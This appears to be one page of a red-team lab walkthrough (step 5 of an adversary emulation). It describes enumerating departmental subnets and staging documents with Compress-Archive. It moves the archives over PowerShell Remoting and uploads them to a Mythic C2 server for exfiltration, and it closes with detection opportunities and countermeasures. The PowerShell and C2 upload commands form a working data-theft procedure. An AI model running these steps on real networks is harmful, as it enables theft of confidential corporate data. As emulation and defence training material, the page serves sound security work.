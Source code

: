 

# Step 5: Collect/Exfiltrate Sensitive Data

### Objective
Data reconnaissance, staging, and exfiltration of sensitive documents from HR, FIN, R&D, and ENG departments.

---

### Context
This machine has access to internal subnets (HR, FIN, ENG, RND)
HVTs have been identified and credentials acquired.
Each department stores proprietary files in `C:\Users\*\Documents\`, including `.docx`, `.xlsx`, and `.pdf` formats.

---

### Execution

1. **Enumerate Subnet Hosts**  
   Use PowerShell or custom tools (e.g., `Test-Connection`, `Get-ADComputer`, or raw socket scans) to enumerate reachable hosts in:
   - HR Subnet: `10.0.2.0/24`
   - FIN Subnet: `10.0.7.0/24`
   - ENG Subnet: `10.0.8.0/24`
   - RND Subnet: `10.0.5.0/24`

2. **File Enumeration**  
   - Connect to identified hosts via WMI/WinRM/SMB.
   - Search in `C:\Users\*\Documents\` for files ending in `.docx`, `.xlsx`, `.pdf`.

3. **Compression & Staging**  
      - Compress and stage files in `C:\Windows\Temp\`.
```powershell
$compress = @{
  Path = "C:\Users\*\Documents\*.docx", 
         "C:\Users\*\Documents\*.xlsx", 
         "C:\Users\*\Documents\*.pdf"
  CompressionLevel = "Fastest"
  DestinationPath = "C:\Windows\Temp\data.zip"
}
Compress-Archive @compress
```

4. **File Transfer**  
   - Copy zip files to the compromised IT machine using built-in PowerShell Remoting.
```powershell=
# Create a new PSSession to the remote computer
# Replace RemoteComputerName with hostname or IP
$session = New-PSSession -ComputerName "RemoteComputerName" -Credential (Get-Credential)

# Copy the file from remote to local
Copy-Item -Path "C:\Windows\Temp\data.zip" -Destination "C:\Windows\Temp\$session.ComputerName.zip" -FromSession $session

# Remove the PSSession
Remove-PSSession $session

```
   - For each subnet, group and compress the discovered documents into:
     - `hr.zip`, `fin.zip`, `rnd.zip`

5. **File Exfiletration**
   - Upload files to Mythic
       - `upload C:\Windows\Temp\hr.zip`
       - `upload C:\Windows\Temp\fin.zip`
       - `upload C:\Windows\Temp\rnd.zip`

---

### Result
Three zip archives containing sensitive documents from HR, FIN, and RND networks are successfully staged on the IT workstation, ready for exfiltration. ENG network yielded no accessible machines.

---

### Detection Opportunities
- Host enumeration or scan activity originating from the IT workstation.
- SMB access from the IT workstation to departmental hosts.
- Unusual file access on `C:\Users\*\Documents\` directories across multiple machines.
- Use of PowerShell or archiving tools (`Compress-Archive`, `7zip`, etc.) on sensitive files.
- Creation of `.zip` files in `C:\Windows\Temp\`.
- Data movement from department hosts to IT workstation over SMB.
- Anomalous use of WMI/WinRM/PowerShell Remoting.

---

### Defensive Countermeasures
- Enable and monitor file auditing (Object Access) for `Documents\` folders.
- Alert on creation or movement of `.zip` files in sensitive directories or temp locations.
- Segment and restrict access between IT and department subnets using firewall ACLs.
- Monitor and alert on lateral movement tools and protocols (e.g., PowerShell Remoting, WMI).
- Deploy DLP (Data Loss Prevention) policies for bulk file access or archive creation.
- Monitor inter-subnet communication patterns and baseline deviations.

---
